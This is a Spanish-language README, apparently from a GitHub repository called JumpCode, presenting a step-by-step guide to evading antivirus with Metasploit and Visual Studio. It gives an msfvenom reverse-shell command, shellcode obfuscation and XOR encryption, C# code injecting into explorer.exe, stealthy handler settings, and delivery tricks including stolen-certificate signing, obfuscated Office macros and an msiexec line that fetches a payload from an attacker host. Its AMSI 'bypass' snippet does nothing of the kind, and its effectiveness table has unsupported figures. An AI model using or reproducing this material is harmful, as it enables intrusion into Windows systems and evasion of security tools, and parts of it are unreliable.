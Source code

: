 # JumpCode

### **Guía de Evasión de AV con Metasploit + Visual Studio Code**

#### **1. Generación del Payload (Ocultamiento Básico)**
```bash
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.X LPORT=5555 -f csharp
```
▸ **Mejora clave**:  
• Codifica 3 veces con `-e x86/shikata_ga_nai -i 3`  
• Usa payloads menos comunes: `windows/x64/meterpreter/reverse_https`  
• Añade nops: `-n 22`  

#### **2. Ofuscación del Shellcode**
```csharp
// Conversión a formato ofuscado (ejemplo real)
string payload = "*fc*e8*82...*d5";  // 1. Eliminar "0x", 2. Reemplazar con "*", 3. Quitar comas
``
▸ **Técnicas avanzadas**:  
• **Split inteligente**:  
```csharp
string[] hexParts = payload.Split(new[] { '*' }, StringSplitOptions.RemoveEmptyEntries);
```  
• **Cifrado XOR**: Añade capa de cifrado simple con clave aleatoria  

#### **3. Implementación en Visual Studio (Trucos Anti-EDR)**
```csharp
// Técnica de asignación memorya dinámica
IntPtr mem = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);

// Inyección en proceso legítimo (ej. explorer.exe)
IntPtr hProcess = OpenProcess(0x1F0FFF, false, targetPID);
WriteProcessMemory(hProcess, mem, shellcode, shellcode.Length, out _);
CreateRemoteThread(hProcess, IntPtr.Zero, 0, mem, IntPtr.Zero, 0, IntPtr.Zero);
```

#### **4. Configuración del Handler (Stealth Mode)**
```bash
msf6 > set EnableStageEncoding true
msf6 > set StageEncoder x64/zutto_dekiru
msf6 > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0)"
msf6 > set ExitOnSession false
```
#### **5. Abrir Msfconsole en la máquina atacante**
````bash
msfconsole
msfconsole /multi/handler
msfconsole(/multi/handler)> use/windows/shell/reverse_tcp
````
#### **6. Ejecutar el payload**
*Configurar el lhost y lport y finalmente lanzar el exploit*

![image](https://github.com/90l3m0np13/JumpCode/blob/main/JumpCode.png)

#### **7. Finalmente abrir el scrip malicioso en la máquina atacada**

![image](https://github.com/90l3m0np13/JumpCode/blob/main/shell.png)

#### **5. Técnicas de Entrega (Bypass SmartScreen)**
• **Firma digital**: Usa signtool con certificados robados/auto-firmados  
• **Plantillas Office**: Incrusta en macros (usar nombres de funciones ofuscados)  
• **LOLBAS**: Ejecución via `msiexec.exe /i http://attacker/payload.msi`  

---

### **Tabla Comparativa: Técnicas vs Eficacia**

| Técnica                  | Detección AV | Dificultad | Eficacia |
|--------------------------|--------------|------------|----------|
| Shellcode crudo          | Alta         | Baja       | 20%      |
| Ofuscación básica (*)    | Media        | Media      | 45%      |
| + XOR Encryption         | Baja         | Alta       | 75%      |
| + Inyección en procesos  | Muy baja     | Alta       | 90%      |

---

### **Recomendaciones Clave**
1. **Sleep() es tu amigo**:  
   ```csharp
   Thread.Sleep(new Random().Next(2000, 5000)); // Evita sandboxes
   ```  
2. **API Hashing**: Resuelve APIs dinámicamente con:  
   ```csharp
   [DllImport("kernel32")] static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
   ```  
3. **AMSI Bypass**: Incluye este código al inicio:  
   ```csharp
   var amsi = (new[] { 'A','m','s','i','S','c','a','n','B','u','f','f','e','r' });
   IntPtr ptr = VirtualAlloc(IntPtr.Zero, (uint)amsi.Length, 0x1000, 0x40);
   Marshal.Copy(amsi, 0, ptr, amsi.Length);
   ```
   ### **Flujo de Evasión Avanzado**
```mermaid
graph TD
    A[Generar Payload] --> B[Encoder + Packer]
    B --> C[Ofuscación en C#]
    C --> D[Inyección en Proceso]
    D --> E[C2 con HTTPS]
    E --> F[Limpieza de Artefactos]
```
